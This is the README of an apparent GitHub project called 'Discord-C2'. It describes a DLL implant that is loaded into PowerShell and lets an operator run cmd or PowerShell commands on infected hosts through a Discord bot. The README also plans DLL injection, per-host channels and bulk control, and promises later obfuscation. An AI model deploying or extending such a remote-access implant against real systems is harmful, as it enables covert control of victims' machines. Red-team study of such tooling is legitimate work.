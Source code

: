 # Work in progress

#### Injecting the DLL in a PowerShell process:
```pwsh
Add-Type -path .\Discord-C2.dll
[DiscordC2.Server]::Start()
```

A .dc2 file containing your bot's token needs to be accessible in the folder where the application is going to run.
This is a temporary solution during development, it will be obfuscated to a much higher degree later


### Features
run cmd or powershell, and retrive results:
* `cmd ipconfig` runs ipconfig in cmd and returns result
* `pwsh dotnet --version` runs dotnet --version in powershell and returns result

![image](https://github.com/joaf123/Discord-C2/assets/56757601/13ab8281-410e-4b41-a693-c557d491fc9e)

With coming updates the bot will create a new channel when a new host is encountered. The channels name will reflect that of the infected computers hostname / IP. Commands entered here will run on that host **only**. 

In addition a **"Bulk/Batch Control"** channel will get setup by the bot where, commands can be triggered for all infected hosts.

---

### Planned features
* Slash command that takes an argument and runs it as CMD/PowerShell commands on the host, and replies with its results in chat.
* Slash command that takes the path to a DLL and attempts to inject it into some process on the host machine.
* Support for several hosts, each getting their separate channel in the discord server.
  * The channels lets you run commands against that specific host
  * A "main" channel will let you run commands in bulk
* Agent spawner that spawns agents using a specific bot token

---
 
**Intended Use:**

This code is intended for **educational purposes only**. It can be used to explore the research concepts presented and understand red team methodologies. 

**Not for Malicious Activity:**

This code should not be used for any malicious activities or real-world attacks. 

**Disclaimer:**

The authors are not responsible for any misuse of this code. 
